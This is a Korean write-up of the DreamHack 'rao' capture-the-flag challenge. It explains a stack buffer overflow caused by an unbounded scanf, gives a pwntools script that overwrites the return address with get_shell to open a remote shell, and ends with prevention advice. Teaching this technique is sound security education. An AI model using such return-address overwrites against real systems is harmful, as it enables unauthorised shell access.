



# B5 · rao

### 1. 원본 바이너리를 GDB로 연다

DreamHack에서 받은 압축 파일을 먼저 푼 뒤, 그 안에 들어 있는 **제공된 `rao` 실행 파일**을 분석합니다. 직접 다시 컴파일한 파일을 열면 컴파일 옵션이나 빌드 결과가 달라져 함수 주소와 스택 배치가 원본과 달라질 수 있습니다.

압축을 푼 폴더에서 GDB를 실행하고 `get_shell` 심볼 주소를 확인합니다.

  

화면에서 `print get_shell` 결과가 `0x4006aa <get_shell>`입니다. 이 주소는 다운로드한 해당 바이너리에서 얻었습니다. 이 바이너리는 PIE가 꺼져 있어 실행 파일의 함수 주소가 실행 때마다 바뀌지 않습니다. 다른 파일을 대상으로 확인한 주소를 그대로 쓰면 안 됩니다.

### 2. 코드와 취약점 — 0x28 바이트 버퍼에 길이 제한 없는 입력

핵심 코드는 다음과 같습니다.

~~~c
void get_shell() {
    char *cmd = "/bin/sh";
    char *args[] = {cmd, NULL};
    execve(cmd, args, NULL);
}

int main() {
    char buf[0x28];

    init();
    printf("Input: ");
    scanf("%s", buf);

    return 0;
}
~~~

`buf[0x28]`은 16진수 `0x28 = 40`바이트입니다. 하지만 `scanf("%s", buf)`의 `%s`에는 입력 길이 제한이 없습니다. 40바이트보다 긴 문자열을 입력하면 버퍼 뒤의 스택 데이터까지 계속 씁니다. 이로 인해 저장된 프레임 포인터와 반환 주소를 덮을 수 있습니다.

### 3. 스택 배치 — 버퍼 시작부터 반환 주소까지

이 바이너리의 디스어셈블리에서 버퍼 시작 주소는 `rbp-0x30`으로 확인됩니다. 컴파일러는 `buf`의 0x28바이트에 더해 스택 정렬을 위한 8바이트 공간을 두어 지역 변수 영역을 0x30바이트로 잡았습니다.

~~~text
buf 시작 주소: rbp - 0x30
오프셋 0x00~0x27  buf[0x28]       40바이트
오프셋 0x28~0x2f  정렬 여유 공간   8바이트
오프셋 0x30~0x37  저장된 RBP       8바이트
오프셋 0x38~0x3f  반환 주소(RIP)   8바이트
~~~

따라서 버퍼 첫 바이트부터 저장된 RBP까지의 거리가 `0x30`이고, 반환 주소는 거기서 8바이트 더 뒤인 `0x38`에 있습니다. 여기서 `0x30`은 버퍼 크기가 아니라 버퍼 시작점부터 저장된 RBP까지의 오프셋입니다.

### 4. 페이로드 — 확인한 함수 주소를 반환 주소에 넣는다

GDB에서 확인한 `get_shell` 주소를 페이로드 끝에 붙여 반환 주소를 덮습니다.

  

~~~python
from pwn import *

p = remote("host3.dreamhack.games", 18100)

payload = b"A" * 0x30
payload += b"B" * 8
payload += p64(0x4006aa)

print(p.recvuntil(b"Input: ").decode(), end="")
p.sendline(payload)
p.interactive()
~~~

페이로드의 각 부분은 스택의 다음 위치를 덮습니다.

- `b"A" * 0x30`: 40바이트 버퍼와 8바이트 정렬 공간을 채워 저장된 RBP까지 도달합니다.
- `b"B" * 8`: 저장된 RBP 8바이트를 덮습니다.
- `p64(0x4006aa)`: `get_shell` 주소를 64비트 리틀엔디안 8바이트로 바꾸어 반환 주소 자리에 씁니다.

`main`이 반환할 때 CPU가 저장된 반환 주소 대신 `get_shell`로 이동합니다. `get_shell`은 `execve`로 `/bin/sh`를 실행합니다. 주소가 달라지면 GDB에서 **같은 원본 실행 파일**의 심볼 주소를 다시 확인해야 합니다. DreamHack 서비스 포트는 인스턴스에 따라 바뀔 수 있으므로 문제 화면의 현재 포트를 사용합니다.

### 5. 실행 결과

  

대화형 셸이 열린 뒤 `id`로 원격 계정을 확인하고 `cat flag`로 플래그를 출력했습니다. 화면에 나온 플래그를 DreamHack 문제 페이지의 FLAG 입력란에 제출합니다.

### 6. 취약점 예방

입력 길이를 버퍼 크기 안으로 제한해야 합니다. 널 종료 문자 공간까지 고려하면 `scanf("%39s", buf)`처럼 최대 입력 길이를 39자로 제한할 수 있고, 더 명확한 방법은 다음처럼 `fgets`를 사용하는 것입니다.

~~~c
if (fgets(buf, sizeof(buf), stdin) == NULL) {
    return 1;
}
~~~

컴파일할 때 스택 보호 기능을 켜면 스택의 반환 주소가 덮였는지 검사할 수 있습니다. 다만 입력 길이 검사는 근본적으로 필요합니다.
